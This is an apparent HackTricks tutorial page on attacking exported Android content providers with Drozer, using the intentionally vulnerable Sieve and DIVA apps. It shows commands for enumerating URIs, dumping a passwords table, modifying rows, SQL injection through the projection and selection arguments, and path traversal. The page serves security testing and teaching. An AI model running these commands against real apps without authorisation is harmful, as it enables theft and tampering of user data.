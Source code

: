 # Exploiting Content Providers

## Exploiting Content Providers

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>

## Intro

A content provider component **supplies data from one application to others** on request. Such requests are handled by the methods of the ContentResolver class. A content provider can use different ways to store its data and the data can be **stored** in a **database**, in **files**, or even over a **network**.

It has to be declared inside the _Manifest.xml_ file. Example:

```markup
<provider android:name=".DBContentProvider" android:exported="true" android:multiprocess="true" android:authorities="com.mwr.example.sieve.DBContentProvider">
    <path-permission android:readPermission="com.mwr.example.sieve.READ_KEYS" android:writePermission="com.mwr.example.sieve.WRITE_KEYS" android:path="/Keys"/>
</provider>
```

In this case, it's necessary the permission `READ_KEYS` to access `content://com.mwr.example.sieve.DBContentProvider/Keys`\
(_Also, notice that in the next section we are going to access `/Keys/` which isn't protected, that's because the developer got confused and protected `/Keys` but declared `/Keys/`_)

**Maybe you can access private data or exploit some vulnerability (SQL Injection or Path Traversal).**

## Get info from **exposed content providers**

```
dz> run app.provider.info -a com.mwr.example.sieve 
  Package: com.mwr.example.sieve
  Authority: com.mwr.example.sieve.DBContentProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.DBContentProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
  Path Permissions:
  Path: /Keys
  Type: PATTERN_LITERAL
  Read Permission: com.mwr.example.sieve.READ_KEYS
  Write Permission: com.mwr.example.sieve.WRITE_KEYS
  Authority: com.mwr.example.sieve.FileBackupProvider
  Read Permission: null
  Write Permission: null
  Content Provider: com.mwr.example.sieve.FileBackupProvider
  Multiprocess Allowed: True
  Grant Uri Permissions: False
```

We can **reconstruct** part of the content **URIs** to access the **DBContentProvider**, because we know that they must begin with “_content://_” and the information obtained by Drozer inside Path: _/Keys_.

Drozer can **guess and try several URIs**:

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.example.sieve.DBContentProvider/
... 
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys 
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

You should also check the **ContentProvider code** to search for queries:

![](<../../../.gitbook/assets/image (121) (1) (1) (1).png>)

Also, if you can't find full queries you could **check which names are declared by the ContentProvider** on the `onCreate` method:

![](<../../../.gitbook/assets/image (186).png>)

The query will be like: `content://name.of.package.class/declared_name`

## **Database-backed Content Providers**

Probably most of the Content Providers are used as **interface** for a **database**. Therefore, if you can access it you could be able to **extract, update, insert and delete** information.\
Check if you can **access sensitive information** or try to change it to **bypass authorisation** mechanisms.

When checking the code of the Content Provider **look** also for **functions** named like: _query, insert, update and delete_:

![](<../../../.gitbook/assets/image (187).png>)

![](<../../../.gitbook/assets/image (254) (1) (1) (1) (1) (1) (1) (1).png>)

Because you will be able to call them

### Query content

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w==
-
email: incognitoguy50@gmail.com
```

### Insert content

Quering the database you will learn the **name of the columns**, then, you could be able to insert data in the DB:

![](<../../../.gitbook/assets/image (188).png>)

![](<../../../.gitbook/assets/image (189).png>)

_Note that in insert and update you can use --string to indicate string, --double to indicate a double, --float, --integer, --long, --short, --boolean_

### Update content

Knowing the name of the columns you could also **modify the entries**:

![](<../../../.gitbook/assets/image (190).png>)

### Delete content

![](<../../../.gitbook/assets/image (191).png>)

### **SQL Injection**

It is simple to test for SQL injection **(SQLite)** by manipulating the **projection** and **selection fields** that are passed to the content provider.\
When quering the Content Provider there are 2 interesting arguments to search for information: _--selection_ and _--projection_:

![](<../../../.gitbook/assets/image (192) (1).png>)

You can try to **abuse** this **parameters** to test for **SQL injections**:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* 
FROM SQLITE_MASTER WHERE type='table';--" 
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... | 
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
```

**Automatic SQLInjection discovery by Drozer**

```
dz> run scanner.provider.injection -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve... 
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
  
dz> run scanner.provider.sqltables -a jakhar.aseem.diva
Scanning jakhar.aseem.diva...
Accessible tables for uri content://jakhar.aseem.diva.provider.notesprovider/notes/:
  android_metadata
  notes
  sqlite_sequence
```

## **File System-backed Content Providers**

Content providers could be also used to **access files:**

![](<../../../.gitbook/assets/image (193).png>)

### Read **file**

You can read files from the Content Provider

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts 
127.0.0.1            localhost
```

### **Path Traversal**

If you can access files, you can try to abuse a Path Traversal (in this case this isn't necessary but you can try to use "_../_" and similar tricks).

```
dz> run app.provider.read content://com.mwr.example.sieve.FileBackupProvider/etc/hosts 
127.0.0.1            localhost
```

**Automatic Path Traversal discovery by Drozer**

```
dz> run scanner.provider.traversal -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve... 
Vulnerable Providers:
  content://com.mwr.example.sieve.FileBackupProvider/
  content://com.mwr.example.sieve.FileBackupProvider
```

## References

* [https://www.tutorialspoint.com/android/android\_content\_providers.htm](https://www.tutorialspoint.com/android/android\_content\_providers.htm)
* [https://manifestsecurity.com/android-application-security-part-15/](https://manifestsecurity.com/android-application-security-part-15/)

<details>

<summary><strong>Support HackTricks and get benefits!</strong></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks github repo**](https://github.com/carlospolop/hacktricks)**.**

</details>
